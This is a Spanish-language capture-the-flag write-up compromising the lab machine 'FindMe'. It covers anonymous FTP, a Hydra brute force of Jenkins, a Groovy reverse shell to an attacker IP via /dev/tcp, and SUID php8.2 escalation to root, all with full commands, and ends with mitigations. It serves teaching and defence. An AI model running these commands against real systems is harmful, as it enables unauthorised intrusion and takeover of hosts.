## Información General

| Campo               | Detalle                                                  |
| ------------------- | -------------------------------------------------------- |
| Máquina             | FindMe                                                   |
| Plataforma          | TheHackersLabs                                           |
| Dificultad          | Facil                                                    |
| IP objetivo         | 192.168.241.184                                          |
| Sistema Operativo   | Linux (Debian)                                           |
| Servicios expuestos | FTP (21), SSH (22), HTTP (80), HTTP-Proxy/Jenkins (8080) |

## Resumen del Ataque

El punto de entrada fue un servidor FTP con acceso anónimo habilitado, que filtraba un fichero (`ayuda.txt`) con una pista sobre el formato de una contraseña de Jenkins. A partir de esa pista se generó un diccionario dirigido con Crunch y, tras identificar el formulario de login de Jenkins con Burp Suite, se realizó fuerza bruta con Hydra contra el endpoint `j_spring_security_check`, obteniendo las credenciales del usuario `geralt`. Con acceso al panel de Jenkins, la Script Console permitió ejecutar código Groovy arbitrario, usado para lanzar una reverse shell como `jenkins`. Desde ahí se pivotó a `geralt` con `su`, y la escalada final a `root` se logró explotando un binario con bit SUID (`php8.2`) mediante `pcntl_exec`.

## Técnicas Usadas

- Enumeración de puertos con Nmap (`-sS`, `-sC -sV`)
- FTP anónimo (misconfiguración) para exfiltración de información
- Ingeniería de diccionario dirigido con Crunch a partir de una pista parcial de contraseña
- Interceptación de tráfico HTTP con Burp Suite para identificar el formato del formulario de login
- Fuerza bruta HTTP POST form con Hydra contra Spring Security (Jenkins)
- RCE autenticado vía Jenkins Script Console (Groovy)
- Reverse shell y estabilización de TTY
- Movimiento lateral con `su`
- Escalada de privilegios vía binario SUID mal configurado (`php8.2` + `pcntl_exec`)

## Desarrollo

**1. Escaneo de puertos**

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.184
```



**2. Enumeración de servicios y versiones**

```
nmap -p 21,22,80,8080 -sC -sV -oN allports 192.168.241.184
```




El FTP confirma acceso anónimo permitido y expone un fichero `ayuda.txt`. El puerto 8080 corresponde a un Jetty que resultará ser una instancia de Jenkins.

**3. Acceso FTP anónimo**

```
ftp 192.168.241.184        
```



```
ftp> ls
```



```
ftp> get ayuda.txt
```



**4. Análisis de la pista filtrada**

```
cat ayuda.txt      
```



El fichero revela tanto el usuario (`geralt`) como el patrón exacto de la contraseña de Jenkins: 5 caracteres, empieza por `p` y termina en `a`.

**5. Generación de diccionario dirigido con Crunch**

```
crunch 5 5 -t p@@@a -o diccionario.txt
```

Con el patrón `p@@@a` se genera un diccionario acotado que cubre únicamente las combinaciones compatibles con la pista, en lugar de recurrir a un diccionario genérico como rockyou.

**6. Identificación del formulario de login de Jenkins**

```
http://192.168.241.184:8080/
```




Se intercepta la petición de login con Burp Suite para conocer el formato exacto que espera Hydra:



**7. Fuerza bruta contra Jenkins con Hydra**

```
hydra -l geralt -P diccionario.txt 192.168.241.184 -s 8080 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=:c=/login:Invalid username or password" -f -V
```




Credenciales válidas obtenidas: `geralt:panda`.

**8. Acceso a Jenkins y RCE vía Script Console**

Inicio de sesión con las credenciales obtenidas:



Navegando a **Panel de Control > Administrar Jenkins > Script Console** se obtiene una consola Groovy con capacidad de ejecución de comandos en el sistema anfitrión.



```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash", "-c", "exec 5<>/dev/tcp/192.168.241.128/1234; cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```



**9. Obtención de reverse shell y estabilización de TTY**

```
nc -lvnp 1234       
```



```
script /dev/null -c bash
ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

```
jenkins@find-me:~$ whoami
```



**10. Movimiento lateral a geralt**

```
jenkins@find-me:/home$ su geralt
```

```
geralt@find-me:/home$ whoami
```



**11. Flag de usuario**

```
geralt@find-me:/home/geralt$ cat user.txt 
```



**12. Enumeración de escalada de privilegios**

```
geralt@find-me:/home/geralt$ sudo -l
```



`sudo` no es una vía de escalada para este usuario. Se enumeran binarios SUID:

```
geralt@find-me:/home/geralt$ find / -perm -4000 -type f 2>/dev/null
```



`/usr/bin/php8.2` con bit SUID destaca sobre el resto: no es habitual y es explotable directamente vía GTFOBins.

**13. Escalada de privilegios a root**

```
geralt@find-me:/home/geralt$ /usr/bin/php8.2 -r "pcntl_exec('/bin/bash', ['-p']);"
```

```
bash-5.2# whoami
```



14. Flag de root

```
bash-5.2# cd /root
bash-5.2# cat root.txt 
```



## Lecciones Aprendidas

- El acceso FTP anónimo, aunque parezca inofensivo, puede filtrar información suficiente para comprometer otro servicio completamente distinto (Jenkins), demostrando cómo las fugas de información se propagan entre servicios sin relación directa.
- Las pistas de contraseña "amistosas" (longitud y patrón conocidos) reducen drásticamente el espacio de fuerza bruta, permitiendo generar diccionarios dirigidos con Crunch en lugar de depender de diccionarios genéricos.
- Jenkins con Script Console accesible a cualquier usuario autenticado equivale a RCE total sobre el host, independientemente de los privilegios que Jenkins muestre tener en su interfaz.
- Un binario con bit SUID fuera de lo estándar (como un intérprete de PHP) es casi siempre una vía directa de escalada a root, ya que estos intérpretes ofrecen funciones para ejecutar comandos o binarios arbitrarios heredando el UID efectivo.

## Medidas de Mitigación

- Deshabilitar el acceso anónimo en el servidor FTP o, si es imprescindible, restringirlo estrictamente a contenido público sin información sensible.
- No dejar pistas de contraseña ni facilitar patrones predecibles; aplicar políticas de contraseñas robustas y aleatorias.
- Restringir el acceso a Jenkins Script Console únicamente a administradores de confianza mediante control de roles (Role-Based Access Control), y auditar su uso.
- Eliminar el bit SUID de binarios que no lo requieran (como intérpretes de lenguajes: `php`, `python`, `perl`, etc.), siguiendo el principio de mínimo privilegio.
- Revisar periódicamente el sistema con herramientas de detección de binarios SUID/SGID inusuales.
